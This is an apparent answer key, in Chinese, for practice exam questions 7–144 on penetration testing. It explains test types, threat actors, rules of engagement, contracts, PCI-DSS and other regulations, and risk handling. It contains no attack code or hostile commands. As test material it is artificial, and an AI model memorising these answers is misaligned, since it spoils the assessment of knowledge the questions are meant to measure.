7. C. 灰盒测试可能会向渗透测试人员提供有关环境的某些信息，而不提供完全访问、凭据或配置详细信息。基于合规性的评估旨在测试对特定法律的合规性。在黑盒测试中，测试人员不会获得目标环境的访问权限或信息。白盒测试是在完全了解底层网络的情况下进行的。
8. B. 在黑盒测试中，测试人员不会获得有关目标的任何访问权限或信息。白盒测试是在完全了解底层网络的情况下进行的。灰盒测试可能会向渗透测试人员提供有关环境的某些信息，而不提供完全访问权限。基于目标的评估通常旨在评估组织的整体安全性。
9. D. 白盒测试是在完全了解目标组织网络的底层技术、配置和设置的情况下进行的。灰盒测试可能会向渗透测试人员提供有关环境的某些信息，而不提供完全访问权限。在黑盒测试中，测试人员不会获得目标环境的访问权限或信息。基于目标或基于目标的评估通常旨在评估组织的整体安全性。
10. A. 灰盒测试是黑盒和白盒测试的结合。灰盒测试通常向渗透测试人员提供有关目标的有限信息，但不提供完全访问、凭据或配置信息。灰盒测试可以帮助集中渗透测试人员的时间和精力，同时提供攻击者实际会遇到的情况的更准确视图。在黑盒测试中，测试人员不会获得目标环境的访问权限或信息。基于目标或基于目标的评估通常旨在评估组织的整体安全性。白盒测试是在完全了解底层网络的情况下进行的。
11. A. 脚本小子是个体，使用更高级黑客编写的代码进行攻击。黑客行动主义者的攻击通常出于政治动机。有组织犯罪行为者通常是一个高度有组织的网络犯罪集团，其主要目标是赚很多钱。国家级威胁行为者代表国家行动，对敌对国家造成伤害。
12. D. 国家支持的攻击者通常在政府机构的指导下运作。攻击通常针对政府承包商甚至政府系统本身。脚本小子是个体，使用更高级黑客编写的代码进行攻击。黑客行动主义者的攻击通常出于政治动机。有组织犯罪威胁行为者是一个网络犯罪集团，其主要目标是经济利益。
13. C. 有组织犯罪威胁行为者是一个网络犯罪集团，其主要目标是经济利益。有组织犯罪集团进行的攻击可能持续很长时间，资金非常充足，通常相当复杂。恶意内部人员攻击发生在组织内部的人使用其合法获得的凭据进行攻击时。黑客行动主义者的攻击通常出于政治动机。国家级威胁行为者代表国家行动，对敌对国家造成伤害。


# 渗透测试与威胁行为者问题

## 威胁行为者特征

### 14. B.
骇客行动者的攻击通常出于政治动机，而非财务动机。通常，他们希望揭露被认为的腐败或为其事业争取关注。脚本小子是指使用由更高级黑客编写的代码进行攻击的个人。有组织犯罪威胁行为者是一群网络罪犯，其主要目标是经济利益。国家级威胁行为者代表一个国家行动，以对敌对国家造成伤害。

### 15. D.
恶意内部人员攻击发生时，组织内部的某人使用其合法获得的凭证来实施攻击。脚本小子是指使用由更高级黑客编写的代码进行攻击的个人。骇客行动者的攻击通常出于政治动机，而非财务动机。有组织犯罪威胁行为者是一群网络罪犯，其主要目标是经济利益。

### 16. D and E.
高级持续性威胁（APT）是一种长期针对性攻击，攻击者在其中获得对网络的访问权限并在较长时间内未被发现地潜伏其中。因此，只有有组织犯罪或国家级行为者可能具备实施此类攻击所需的复杂程度和资金。脚本小子、骇客行动者和恶意内部人员通常缺乏实施 APT 所需的技术专长和/或资金。

### 17. A and C.
高级持续性威胁（APT）通常针对高价值目标，例如政府、国防承包商、多国组织和金融机构。在线学习网站、牙科诊所甚至社区学院通常作为目标的价值不足以 warrant 一个 APT。

### 18. B.
骇客行动者的攻击通常出于政治动机，而非财务动机。恶意内部人员通常出于报复或经济利益动机。有组织犯罪行为者最有可能出于经济利益动机。脚本小子可能有各种动机，例如名声。

### 19. B.
脚本小子可能有各种动机。其中最常见的是关注。他们经常在在线论坛和社交媒体上炫耀自己的攻击成果。恶意内部人员通常出于报复或经济利益动机。有组织犯罪行为者最有可能出于经济利益动机。国家级行为者最有可能出于政治或军事目标。

## 渗透测试方法论与 Engagement

### 20. D.
由于白盒评估为渗透测试人员提供了关于目标的广泛信息，因此它通常提供最彻底的评估，并且通常所需时间最少。灰盒测试是黑盒和白盒测试的结合。因此，其执行时间更长，因为测试人员必须发现更多信息。在黑盒测试中，测试人员不会获得目标环境的访问权限或信息，这使得评估远不完整且耗时更长。基于目标或基于目标的评估通常旨在评估组织的整体安全性。

### 21. A and E.
范围文档必须在其中指定测试执行的原因以及目标受众是谁。本题中列出的其他选项如有必要可以包含，但不是必需的。

### 22. A and B.
参与规则（ROE）应始终包括参与的时间线以及对专门规范目标的任何法律的审查，以确保你不会违反它们。过去测试过的其他组织的名单或目标组织竞争对手的名单不太可能在参与规则中指定。目标网络的详细地图可能不会包含在黑盒或灰盒测试中。

### 23. B and C.
ROE 应确定哪些位置、系统、应用程序或其他潜在目标包含在测试中或被排除在测试之外。这应确定可能受测试影响的任何第三方服务提供商，例如 ISP、云服务提供商或安全监控服务。计费和仲裁程序可能在你与客户之间的一般合同中解决，而非在 ROE 中。客户不太可能希望你通知其竞争对手你正在测试其安全。

### 24. B and E.
ROE 应指定你与客户之间何时以及如何进行沟通。你应提供每日或每周更新，还是仅在测试完成后报告？ROE 还应指定目标允许的行为。例如，参与诸如 shunning 或列入黑名单之类的防御行为可能会限制测试的价值。

### 25. C.
口头许可通常被认为是不够的。在开始渗透测试之前，你必须获得高级管理层的签署协议，给予你进行测试的许可。如果你的活动被报告给当局，该协议将作为“免罪金牌”发挥作用。本场景中描述的其他参数已适当定义。

### 26. D.
在此场景中，参与规则已适当定义。例如，定义目标在测试期间允许使用的防御行为是相当合适的。同样，白盒测试可能包含有关内部网络的详细信息。第三方服务提供商被排除在测试之外也不罕见。

### 27. A.
由于这是黑盒评估，测试人员不应事先了解要测试的环境，也不应拥有特殊访问权限。本质上，他们应从真实攻击者相同的角度攻击客户。在高峰时段暂停测试以避免干扰其关键业务运营是相当合适的。在黑盒评估中，仅在测试完成后与客户沟通也是合适的。

### 28. B.
测试协议应包含免责声明，指出测试仅在进行时有效，并且客户要求的范围和方法可能影响测试的全面性。NDA 指定协议中各方可以向第三方披露的内容。仲裁条款仍可能导致对渗透测试顾问不利的和解。除非工作说明书包含前面讨论的时点条款，否则单独的工作说明书无法保护你免受此类诉讼。

### 29. C.
测试协议或范围文档应包含免责声明，解释客户要求的范围和方法可能影响测试的全面性。例如，白盒测试比黑盒测试更有可能发现隐藏的漏洞。采购订单是购买商品或服务的具有约束力的协议。MSA 是一项定义将规范未来协议的条款的协议。黑盒测试可以提供独特的视角，不应被放弃。

### 30. A and E.
在参与规则文档中记录问题处理和解决时，你应明确定义协议双方的升级程序，以帮助最大限度地减少目标组织的停机时间。你还应包含要求客户承认渗透测试存在固有风险的措辞。参与的时间线以及范围信息也包含在 ROE 中，只是不在问题解决部分。


# 渗透测试规则与最佳实践

### 31. D.
交战规则（ROE）应在渗透测试开始前由双方明确定义并签署。如果没有 ROE，测试过程中出现问题时你的组织将面临潜在诉讼风险。对新客户的审查发生在界定测试范围并创建 ROE 文档的过程中。MSA 定义了将规范未来协议的条款。

### 32. D.
在进行渗透测试之前，你必须获得目标组织高级管理层的书面许可才能执行测试。通过口头或电子邮件获得许可通常不可接受。从 IT 员工处获得许可通常也不可接受。

### 33. A.
在黑盒渗透测试中，测试人员对目标没有任何先验知识。因此，它最能模拟来自外部的攻击会发生什么情况。白盒和灰盒渗透测试允许测试人员对目标具有一定程度的先验知识。

### 34. A.
在灰盒渗透测试中，测试人员对目标具有部分知识。这可以用来模拟由普通员工进行的恶意内部人员攻击。在黑盒渗透测试中，测试人员对目标没有任何先验知识。在白盒测试中，测试人员对目标具有广泛的知识。

### 35. C.
由于渗透测试人员对目标一无所知，黑盒测试的执行耗时和花费最多。相比之下，灰盒和白盒测试通常便宜得多且耗时更少，因为测试人员对目标具有一定程度的先验知识。

### 36. B.
由于测试人员使用的是内部电子邮件账户（普通员工使用的那种）来执行测试，测试人员很可能正在进行灰盒测试。在黑盒测试中，测试人员必须使用外部电子邮件账户。在白盒测试中，测试人员很可能使用提升的权限和访问权限来执行测试。

### 37. B.
由于测试人员被授予对目标网络的广泛内部访问权限，白盒测试通常能提供最全面的评估。与黑盒或灰盒测试相比，可以花费更多时间探测深层漏洞。

### 38. A 和 B.
本场景中此项工作的范围仅限于内部网络基础设施。Microsoft Office 365、Google Docs 和 Microsoft Azure 都是由第三方托管的基于云的服务，因此被视为超出范围。

### 39. A.
渗透测试规划和范围界定过程中最重要的一步是获得目标的书面许可以执行测试。如果没有书面许可，你将被视为黑客，并受联邦、州和地方法律关于计算机犯罪的管辖（如美国法典第 18 编第 47 章第 1029 条和 1030 条）。

### 40. C.
工作说明书（SOW）是一份正式文件，定义了渗透测试的范围。它明确了测试期间将发生什么。MSA 定义了将规范未来协议的条款。NDA 规定了协议各方可以向第三方披露的内容。采购订单是向供应商购买的具有约束力的协议。

### 41. B.
保密协议（NDA）是一份法律合同，定义了可以共享的机密信息以及不能共享的信息。在大多数渗透测试协议中，NDA 规定测试人员不得向除客户本身之外的任何人透露测试结果。SOW 是一份正式文件，定义了渗透测试的范围。MSA 定义了将规范未来协议的条款。采购订单是向供应商购买的具有约束力的协议。

### 42. A.
最有可能的是，你会要求客户签署采购订单。采购订单是向供应商购买的具有约束力的协议。有了采购订单，你的组织就可以证明花费时间和金钱为此项工作定义 SOW 和 NDA 的合理性。由于客户本质上是在“试用”你的服务，因此目前可能不需要 MSA，尽管将来可能需要。

### 43. A.
主服务协议（MSA）是一份合同，双方同意其中大部分将规范未来协议的条款。通过在 MSA 中定义这些条款，未来的协议会更容易、更快地达成。采购订单是向供应商购买的具有约束力的协议。SOW 是一份正式文件，定义了渗透测试的范围。NDA 规定了协议各方可以向第三方披露的内容。

### 44. B 和 E.
作为一家安全公司的员工，你很可能会被雇主要求签署保密协议（NDA）和竞业禁止协议。NDA 规定了协议各方可以向第三方披露的内容。你的雇主可能不希望你向其竞争对手透露专有信息。竞业禁止协议要求你同意不在未来工作中为竞争对手工作或直接与雇主竞争。

### 45. A 和 B.
美国联邦政府使用的 SOW 的替代方案包括目标说明书（SOO）和绩效工作说明书（PWS）。采购订单和竞业禁止协议通常不被用作 SOW 的替代方案。

### 46. D 和 E.
如果客户的网络本身在范围内，那么你需要将客户的无线网络 SSID 定义为在范围内。定义客户的 IP 地址范围为在范围内也很重要。你不得在未经其书面许可的情况下针对第三方，例如邻近租户或云服务提供商。

### 47. B.
所有渗透测试人员在评估期间保留其行动的详细书面日志非常重要。这些日志应确定测试人员做了什么、何时做的、使用了什么系统、攻击了什么系统以及结果是什么。你应避免仅依赖测试人员或客户的记忆。它们往往有缺陷且不完整。

### 48. A.
这是一个基于目标的评估的例子。目标是使用你想要的任何手段验证组织的物理安全。并购前测试通常在组织合并之前进行。基于合规性的测试是为了确保组织继续遵守政府法规或公司政策。供应链测试涉及测试组织的供应商。

### 49. B.
本场景需要基于合规性的评估。这是一种基于风险的评估，确保政策或法规得到适当遵循。很可能，信用卡公司会向组织提供一份清单，渗透测试人员将使用该清单进行评估。基于目标的评估将指定测试需要达到的目标。供应链评估涉及测试组织的供应商。红队评估通常由内部测试人员进行，以确保组织的 IT 员工（蓝队）能够充分防御网络。

### 50. B.
在两个组织合并之前，通常会进行渗透测试，以在网络连接之前识别需要解决的任何安全漏洞。基于目标的评估旨在测试信息是否能保持安全。基于合规性的测试是为了确保组织继续遵守政府法规或公司政策。供应链测试涉及测试组织的供应商。


# 渗透测试评估笔记

### 51. D.
在供应链评估中，对组织的供应商进行渗透测试，以确保其网络安全且不能被用作攻击枢纽来入侵组织本身。基于目标的评估旨在测试组织安全性的特定方面。并购前测试通常在组织合并之前对其进行。

### 52. D.
红队评估通常由内部测试人员执行，以确保组织的 IT 人员（蓝队）能够充分防御网络。基于目标的评估旨在测试组织安全性的特定方面。供应链测试涉及对组织的供应商进行测试。基于合规的测试是为了确保组织继续遵守政府法规或企业政策。

### 53. A.
一般来说，如果将威胁行为者按从最不具威胁到最具威胁的等级排序，大致如下：脚本小子 > 黑客行动主义者 > 恶意内部人员 > 有组织犯罪 > 国家行为者。

### 54. C.
这是威胁建模的示例。使用威胁建模，您可以确定在渗透测试期间想要模拟的威胁类型。然后使用该类型威胁通常使用的相同工具、技术和方法。

### 55. A.
这是风险接受的示例。您已评估客户对渗透测试可能给组织带来的影响的容忍度。重要的是客户必须准备好并能够接受渗透测试可能导致网络中断或服务中断的事实。

### 56. D.
这是范围蔓延的示例。范围蔓延是对评估范围添加额外的参数和/或目标。这是一种常见情况，应在初始范围界定中进行规划。例如，您和客户可以就如果测试范围需要扩大时可进行的定价和时间表调整达成一致。

### 57. A.
许多渗透测试工具可能受出口限制覆盖。美国禁止出口某些类型的软件和硬件，包括加密工具。如果您携带渗透测试工具包出境旅行，如果您持有被禁止的软件或硬件，可能被逮捕。

### 58. C.
许多渗透测试工具可能受出口限制覆盖。美国禁止出口某些类型的软件和硬件，包括加密工具。如果您通过互联网将这些工具国际转移，您可能被逮捕。

### 59. D.
适用于渗透测试和渗透测试人员的法律和法规在美国各州之间有所不同。这意味着您需要了解适用于您所做工作的法律。在此场景中，您需要检查适用于您计划进行的评估的所有联邦、州和地方法律。建议您聘请律师的服务以免惹上麻烦。

### 60. A.
Web Services Description Language（WSDL）是一种基于 XML 的接口定义语言，用于描述 SOAP 服务提供的功能。

### 61. C.
Web Application Description Language（WADL）是对基于 HTTP 的 Web 服务的基于 XML 的机器可读描述。因此，它通常与 REST 服务一起使用，而不是 SOAP。

### 62. B and D.
应用程序编程接口（API）文档描述了软件组件如何通信。软件开发工具包（SDK）也附带文档。组织可以创建自己的 SDK、使用商业 SDK 或使用开源 SDK。了解使用哪些 SDK 以及它们的位置可以帮助渗透测试人员测试应用程序，尤其是内部编写的应用程序。

### 63. D.
黑盒渗透测试应模拟外部攻击者对网络的视角。因此，测试人员应对内部网络知之甚少或一无所知。

### 64. D.
在白盒测试中，您应有权访问广泛的内部文档。由于内部开发的应用程序将被用作攻击向量，您应要求客户尽可能提供有关该应用程序的文档。例如，您应要求提供架构图、示例应用程序请求以及适用的 swagger 文档。

### 65. C and E.
在白盒测试中请求内部架构图时，通常应提供网络图和设施地图等文档。您可以使用这些信息绘制网络拓扑并定位关键基础设施设备，例如交换机、路由器和服务器。

### 66. A and D.
示例应用程序请求通常用于测试内部开发的应用程序（桌面或 Web）。内部开发的应用程序通常不像商业应用程序那样受到同等程度的审查，这使得它们成为可能被利用的攻击向量。示例应用程序请求通常不需要用于商业应用程序，例如 Word、Excel 或 Photoshop，因为它们的弱点已有充分记录。

### 67. C.
内部开发的应用程序通常不像商业应用程序那样受到同等程度的审查，这使得它们成为可能被利用的攻击向量。例如，在生成示例应用程序请求时，大多数渗透测试人员会向内部开发的应用程序投放意外信息以查看应用程序如何响应。例如，您可能会发现将非常长的文本字符串输入到仅期望八个字符的字段中可能会产生缓冲区溢出错误。然后，您可以利用这种糟糕的错误处理行为在托管该应用程序的 Web 服务器上插入并运行恶意代码。

### 68. A.
Simple Object Access Protocol（SOAP）是一种消息协议规范，定义了结构化信息如何在 Web 应用程序之间交换。SOAP 项目文件可以从 Web Services Description Language（WSDL）文件创建。

### 69. D.
Swagger 是一个开源框架，旨在帮助开发人员设计、构建、记录和测试 Representational State Transfer（REST）Web 服务。REST 是 SOAP 协议的替代方案。事实上，REST 已开始取代 SOAP，成为大多数现代 Web 应用程序的首选框架。

### 70. B.
Representational State Transfer（REST）Web 应用程序架构基于 Hypertext Transfer Protocol（HTTP）。

### 71. A.
Web Service Description Language（WSDL）是一种基于 XML 的接口定义语言，用于描述 Web 应用程序服务器（如 SOAP 服务器）提供的功能。WSDL 与 Representational State Transfer（REST）Web 应用程序架构配合不佳，而 REST 多年来一直在缓慢取代 SOAP。

### 72. B.
Web Application Description Language（WADL）提供对运行在 Web 应用程序服务器上的基于 HTTP 的 Web 服务的基于 XML 的描述。WADL 通常与 Representational State Transfer（REST）Web 服务一起使用。WADL 是 WSDL 的替代方案，通常被认为更容易使用，但也缺乏与 WSDL 相关的灵活性。

### 73. B.
XLM Schema Definition（XSD）是 W3C 规范，标识如何在 XML 文档中定义元素。

### 74. D.
在进行白盒渗透测试时，尤其是针对内部开发的应用程序时，拥有用于创建应用程序的 SDK 的文档会非常有帮助。数据流图也可以为渗透测试人员提供目标应用程序如何与其他网络服务通信的理解。配置文件可能包含帐户信息、IP 地址、API 密钥，甚至可能包含密码。


75. B 和 D。在进行白盒评估时，通常希望客户在其 IPS 中将测试人员的用户账户列入白名单。这将防止他们在开始探测防御时被阻止。他们还应配置安全例外，允许渗透测试人员的系统绕过 NAC 安全控制。

76. E。因为在本场景中正在进行黑盒测试，客户的网络应处于“shields up”模式。渗透测试人员不应拥有内部用户账户，也不应允许其系统绕过 NAC 安全控制。不应允许证书钉扎。

77. A。通常，当 NAC 与 IPSec 结合实施时，客户端必须在被允许连接到内部安全网络之前满足公司安全策略。如果满足，则会分配数字证书，允许其与内部安全网络上的其他系统通信。为了绕过 NAC，可以使用证书钉扎为测试人员系统分配数字证书，而无需每次连接时都证明其合规。

78. A。这是一个风险规避的例子。通过拆除门并用混凝土填满墙壁，客户完全消除了攻击者利用该门未经授权进入设施的风险。

79. C。这是一个风险缓解的例子。客户没有完全消除风险，而是使用了保安作为对策。未经授权访问的风险仍然存在，但保安的使用控制了该风险。

80. B。这是一个风险转移的例子。客户不是规避风险或缓解风险，而是将风险转移给了第三方处理商。

81. B。这是一个风险转移的例子。客户不是通过搬迁来规避风险，也不是通过对设施进行抗震升级来缓解风险，而是将风险转移给了保险公司。

82. D。在此场景中，客户已确定该风险是可以接受的，并且不会采取措施控制它。通常，当组织确定消除或控制风险的成本超过由此风险引发的安全事件成本时，就会发生这种情况。

83. B。因为这是一次合规性渗透测试，你首先需要查阅 PCI-DSS 标准并审查客户被视为“compliant”的要求。通常，监管机构会发布应用于评估合规性的清单。这些清单将强烈影响测试的范围、预算和时间表。

84. A 和 B。支付卡行业数据安全标准（PCI-DSS）是一套企业必须实施的安全控制措施，以保护信用卡数据。例如，其中两项要求规定组织必须限制对所有持卡人数据的物理访问，并且 CDE 网络必须与网络其余部分隔离。

85. B 和 E。支付卡行业数据安全标准（PCI-DSS）是一套企业必须实施的安全控制措施，以保护信用卡数据。例如，其中两项要求规定所有持卡人数据在网络介质上传输前必须加密，并且已部署的硬件和软件上的所有默认密码必须删除。

86. A。支付卡行业数据安全标准（PCI-DSS）是一套企业必须实施的安全控制措施，以保护信用卡数据。例如，其中一项要求规定所有系统必须安装防病毒软件，并且必须定期更新。

87. A。支付卡行业数据安全标准（PCI-DSS）是一套企业必须实施的安全控制措施，以保护信用卡数据。例如，其中一项要求规定组织内部必须实施强密码策略。

88. A 和 D。支付卡行业数据安全标准（PCI-DSS）是一套企业必须实施的安全控制措施，以保护信用卡数据。例如，其中两项要求规定组织必须监控和审计对持卡人数据的所有访问，并且对该数据的访问必须基于需要知道原则进行限制。

89. A。《格雷姆-里奇-布莱利法案》（GLBA）规范金融机构处理客户个人信息的方式。例如，它要求公司制定书面信息安全计划，确定旨在保护该信息的流程和程序。

90. C。《1996 年健康保险可携性与责任法案》规范医疗保健组织。他们必须遵守法案中规定的规则和法规，例如要求进行风险分析和测试组织的安全控制措施。

91. B。《萨班斯-奥克斯利法案》为在美国上市的公司在安全策略、标准和控制方面设定标准。例如，它为网络访问、身份验证和安全设定标准。

92. D。FIPS 140-2 是美国政府的安全标准，用于认证加密模块。

93. C。在此场景中，花在了解渗透测试目标受众上的时间不足。应该花时间与客户沟通，了解其组织、测试目标等。只有在那之后才应创建范围。

94. D。在此场景中，未能保持发现结果的保密性。博客文章透露了关于客户的过多信息。客户可能需要数周甚至数月的时间来解决评估中发现的问题。通过公开发布发现结果，你使客户暴露于潜在攻击之下。

95. A 和 C。范围界定过程的一部分是确定渗透测试将评估组织对特定已知漏洞的易受攻击性，还是应调查未知漏洞。因为这是一次外部黑盒测试，客户可能不会提供用户账户或对其设施的物理访问。

96. C。在此场景中，最佳做法是与客户进行影响分析并确定其对影响的容忍度。使用漏洞扫描器获得的信息是否值得潜在风险？对于某些组织而言，风险可能值得收益。对于其他组织而言，可能不值得。无论如何，渗透测试人员不应在影响分析完成且客户了解风险之前使用该工具。

97. B 和 C。很可能，客户希望知道测试完成后你将向他们提供什么类型的报告。他们还希望知道由于测试结果修复其系统需要多长时间。

98. B。通常，渗透测试相关的技术限制会确定可以测试的系统和不能测试的系统。例如，假设客户使用自动化机器人生产设备制造产品。该设备非常昂贵，他们可能不希望你将其纳入测试范围。

99. C。因为这是一次灰盒渗透测试，你可能应该询问客户是否希望在现场进行测试，还是希望你从远程异地位置进行测试。现场测试可能会产生更好的结果，但成本也会更高，因为渗透测试人员会产生差旅费用。异地测试成本更低，因为不需要差旅费用，但由于测试人员不在现场，可能会产生质量较低的结果。

100. B。黑盒测试旨在模拟外部攻击。渗透测试人员应具有典型外部攻击者相同的视角。因此，他们应以类似的方式定位，即在任何外部位置。


# 渗透测试总结

### 101
A 和 E。使用内部团队进行渗透测试有两个主要好处。首先，他们对组织具有背景知识，可以提高测试的有效性。其次，使用内部员工进行测试通常比聘请渗透测试承包商更便宜。当内部员工不参与渗透测试时，他们可以为组织从事其他项目。

### 102
B 和 C。外部渗透测试团队是专门为执行渗透测试而聘请的。由于他们并非由组织直接雇佣，因此往往具有更高的独立性。如果发现漏洞，他们不必担心会惹恼经理或主管。事实上，他们通常会为此感到高兴。此外，他们往往较少偏见，因为他们不参与组织网络基础设施的设计或持续维护。

### 103
C 和 D。内部渗透测试团队可能与组织关联过近。例如，他们可能会担心渗透测试中发现的漏洞会让团队蒙羞，因为他们很可能设计并持续维护被测试的网络。这可能导致在进行渗透测试时缺乏客观性。

### 104
A 和 C。使用外部承包商团队进行渗透测试有几个缺点需要考虑。首先，如果他们也为你的竞争对手进行渗透测试，则可能存在利益冲突。其次，他们往往相当昂贵。

### 105
C。渗透测试人员必须在思维上采取不同的方法。与其试图防御所有可能的威胁，他们只需要找到一个可以利用的单一漏洞来实现目标。为了找到这些漏洞，他们必须像可能在现实世界中攻击系统的对手一样思考。这种方法通常被称为 *adopting the hacker mind-set*。

### 106
A。网络安全专业人员使用众所周知的 CIA 三元组模型来描述信息安全目标。CIA 中的字母 *C* 代表保密性，其目的是防止未经授权访问信息或系统。

### 107
B。网络安全专业人员使用众所周知的 CIA 三元组模型来描述信息安全目标。CIA 中的字母 *I* 代表完整性，其目的是防止信息或系统被未经授权修改。

### 108
C。网络安全专业人员使用众所周知的 CIA 三元组模型来描述信息安全目标。CIA 中的字母 *A* 代表可用性，确保信息可供授权访问。

### 109
A。攻击者和渗透测试人员试图利用 DAD 三元组的相应目标来破坏 CIA 三元组模型的目标。DAD 中的第一个 *D* 代表 *disclosure*，指的是获得对信息或系统的未经授权访问。

### 110
B。攻击者和渗透测试人员试图利用 DAD 三元组的相应目标来破坏 CIA 三元组模型的目标。DAD 中的 *A* 代表 alteration，指对信息或系统进行未经授权的更改。

### 111
C。攻击者和渗透测试人员试图利用 DAD 三元组的相应目标来破坏 CIA 三元组模型的目标。DAD 中的第二个 *D* 代表 denial，指阻止信息或系统的合法使用。

### 112
A。渗透测试人员试图利用 DAD 三元组的相应目标来破坏 CIA 三元组模型的目标。DAD 中的第一个 *D* 代表 *disclosure*，指的是获得对信息或系统的未经授权访问。在此场景中，Natasha 获得了她不应访问的后端数据库中的信息访问权限。

### 113
C。攻击者和渗透测试人员试图利用 DAD 三元组的相应目标来破坏 CIA 三元组模型的目标。DAD 中的 *A* 代表 *alteration*，指对信息或系统进行未经授权的更改。在此场景中，Kimberly 通过添加未经授权的用户账户篡改了身份验证系统。

### 114
D。攻击者和渗透测试人员试图利用 DAD 三元组的相应目标来破坏 CIA 三元组模型的目标。DAD 中的第二个 *D* 代表 denial，指阻止信息或系统的合法使用。在此场景中，Jessica 对文件服务器执行了拒绝服务 DoS 攻击，拒绝了对其的合法访问。

### 115
C。攻击者和渗透测试人员试图利用 DAD 三元组的相应目标来破坏 CIA 三元组模型的目标。DAD 中的 *A* 代表 alteration，指对信息或系统进行未经授权的更改。在此场景中，Brittany 篡改了员工薪酬会计系统。

### 116
C 和 D。PCI-DSS 标准要求处理信用卡交易的组织至少每年进行一次内部和外部渗透测试。他们可以根据需要更频繁地执行，但并非强制要求。这些组织在对网络基础设施进行重大更改后还必须进行渗透测试。

### 117
A。此讨论本应在规划和范围界定阶段进行。渗透测试公司和客户应在测试开始前就完成评估的规则达成一致。这些信息应记录在书面的工作说明书 SOW 中，明确列出渗透测试人员被允许使用的工具和技术以及使用它们的风险。

### 118
D。工作说明书 SOW 是一项协议，应在渗透测试的规划和范围界定阶段定义。它包含渗透测试人员与客户之间的工作协议，确定测试的具体技术、工具、活动、交付成果和时间表。它可与现有的主服务协议 MSA 结合使用。

### 119
D。白盒渗透测试提供对内部网络的完全访问，包括路由器、交换机、接入点和服务器等关键基础设施设备的配置设置。因此，白盒测试有时被称为 *full-knowledge* 测试，因为它们提供完全的访问和可见性。

### 120
A。保密协议 NDA 是一项法律协议，保护承包商在渗透测试期间可能发现的信息。它禁止承包商向未经授权的各方透露此类信息。

### 121
C。脚本小子通常缺乏使用自己的工具发动攻击的技术能力。相反，他们通常会下载现有工具并运行它们。由于这些工具已被网络安全社区所知，脚本小子通常比对手分层列表中的其他类型行为者构成的威胁更小。

### 122
D。高级持续性威胁 APT 通常由国家赞助，因此资金充足且拥有高端技术资源和知识。因此，APT 通常是对对手分层列表中所有行为者构成的最大威胁。

### 123
D。在此场景中，你的扫描被入侵保护系统 IPS 检测到，结果导致你笔记本电脑使用的 IP 地址被列入黑名单。现在，客户端网络上的所有设备都在丢弃带有被列入黑名单 IP 地址的数据包。


# 渗透测试评估

### 124. A.
主服务协议（MSA）定义了将适用于多个未来协议的通用条款。因此，MSA 本质上是一份合同，定义了未来工作将完成的条款。受 MSA 约束的具体项目将由工作说明书（SOW）定义。客户希望签署 MSA 这一事实表明，他们可能希望让贵公司承接多个项目。

### 125. B.
最有可能的是，客户已实施了网络准入控制（NAC）系统。你的笔记本电脑未满足 NAC 连接安全网络所需的标准，因此被隔离到一个隔离的修复网络中，在该网络中它可以访问修复服务器（网络上的另一台主机）以达到合规。

### 126. E.
在此场景中，正在进行红队渗透测试。红队评估通常具有狭窄的目标，而不是试图全面识别和测试所有可能存在的漏洞。红队评估可能会使用来自多个不同向量的协调攻击来实现这些目标。团队可能被允许使用各种工具和技术来实现此目的，包括技术、物理和社会利用。

### 127. D.
在多租户共享设施内进行渗透测试时，了解哪些 SSID 在测试范围内至关重要。入侵错误的无线网络是非法的，可能导致起诉和/或诉讼。

### 128. A and D.
有组织犯罪和国家级威胁行为者通常拥有广泛的财务资源和技术专业知识。这多次使他们能够开发出他人未使用的自定义利用程序。

### 129. B.
恶意内部人员通常是已被合法授予一定程度访问组织信息和系统的员工或承包商。恶意内部人员利用这种信任并将其用于破坏组织的信息或系统。

### 130. C.
脚本小子通常缺乏使用自己的工具发动攻击的技术能力。相反，他们通常会下载现有工具并运行它们。由于这些工具已被网络安全社区所熟知，脚本小子通常比对手分级列表中的其他类型行为者构成的威胁更小。

### 131. C.
在此场景中，客户要求你超出商定的测试范围。这是范围蔓延的一个例子，在 IT 合同中很常见。在此场景中，你可以以两种方式之一回应。首先，你可以简单地拒绝该请求，理由是超出范围。或者，你可以要求客户以额外费用将电子邮件服务器纳入现有合同的补充协议中。

### 132. A.
PCI-DSS 标准是确保处理信用卡的组织遵守某些安全要求的行业标准。由于你正在测试客户对这些要求的遵守情况，因此你正在进行基于合规性的评估。

### 133. C.
测试协议应包含免责声明，指出测试仅在进行时有效，因为未来的技术变化可能会暴露当前未知的新漏洞。如果在测试完成后较晚的时间点出现新的利用或漏洞，你将不承担责任。

### 134. B.
渗透测试中发现的信息量在很大程度上取决于参与规则和使用的评估类型。例如，白盒测试通常比黑盒测试提供更完整的信息。同样，如果某些系统和设备被确定为超出范围，则它们所隐藏的任何漏洞都不会被发现。协议中的这种措辞旨在在测试完成后在超出范围的系统中发现漏洞时保护你。

### 135. A.
黑盒测试有时被称为 *zero knowledge* 评估，因为渗透测试人员对客户网络几乎没有或完全没有了解。这种类型的评估最能模拟现实世界的外部攻击。

### 136. B.
灰盒测试有时被称为 *partial knowledge* 评估，因为渗透测试人员对客户网络有一定的了解，但他们并不完全了解。这种类型的评估最能模拟现实世界的恶意内部人员攻击。

### 137. C.
白盒测试有时被称为 *full knowledge* 评估，因为渗透测试人员完全了解客户的网络，包括对所有基础设施设备和服务器的管理员访问权限。这种类型的评估通常提供最全面的结果，因为测试人员无需花费时间进行发现模式。他们拥有所需的所有信息，可以立即开始广泛的评估。

### 138. A.
通常，当 NAC 与 IPSec 结合实施时，网络设备（如台式机和笔记本电脑）必须在被允许连接到内部安全网络之前满足公司安全策略。如果满足，则会分配数字证书，允许它们与内部安全网络上的其他系统通信。否则，它们将被放置在隔离的修复网络上，直到达到合规为止。为了绕过 NAC，可以使用证书固定在每次连接时无需证明其合规的情况下为测试人员系统分配数字证书。

### 139. A.
客户组织内的适当签署授权人是唯一有权同意渗透测试范围的人。具体是谁会因组织而异。因此，你需要核实签署协议的人是否确实是该组织的适当签署授权人。不要仅根据某人的职位头衔就假设其已被授权。

### 140. A.
在此示例中，你正在评估客户对影响的容忍度。通过在范围内包含此措辞，如果渗透测试确实导致关键系统离线，你可以保护你的组织免受诉讼。

### 141. A and D.
由于测试将包括目标组织的网络以及第三方 SaaS 提供商提供的服务，因此在执行渗透测试之前，你必须获得这两个实体的书面许可。未能获得其中任何一个都可能使你面临起诉和/或诉讼。

### 142. B and E.
在此场景中，本次委托的范围仅限于内部网络基础设施。组织的 ISP、Amazon Web Services 以及邻居的无线网络均由第三方拥有，因此被视为超出范围。

### 143. A and C.
由于这是一次灰盒测试，你可以预期网络访问和存储访问有限。基本上，你可以预期拥有与组织内普通员工相似的知识和访问级别。

### 144. D.
参与规则包括以下内容：
* 测试将进行的时间表
* 应包含/排除哪些位置、系统、应用程序和其他潜在目标
